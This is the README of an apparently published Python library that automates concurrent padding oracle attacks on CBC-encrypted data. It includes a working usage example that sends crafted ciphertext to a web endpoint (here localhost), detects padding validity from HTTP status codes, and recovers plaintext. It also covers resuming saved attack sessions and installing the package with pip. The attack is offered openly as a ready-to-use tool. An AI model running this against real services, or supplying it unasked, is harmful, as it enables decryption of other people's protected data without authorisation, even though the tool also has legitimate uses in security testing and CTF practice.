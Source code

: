 a library for padding oracle attack concurrently
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

[![](https://img.shields.io/pypi/v/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)
[![](https://img.shields.io/pypi/pyversions/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)

basic usage
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):
    def padding_ok(self, resp:Response) -> bool:
        if resp.status_code == 200:
            return True
        else:
            return False

    def recover_fake_data(self, req:Request, fake_datas):
        for fake_data in fake_datas:
            if bytes.hex(fake_data) in req.url:
                return fake_data
        return None

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

result picture
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

load session
---
When you break down the execution(CTRL-C), it can save session that you used to attack automaticly.You can load session like below.
```python
payload = Payload(bytes.hex(exp), fake=True)
payload.load()
payload.run()
```

install
---
```bash
pip install padding-oracle-attack
```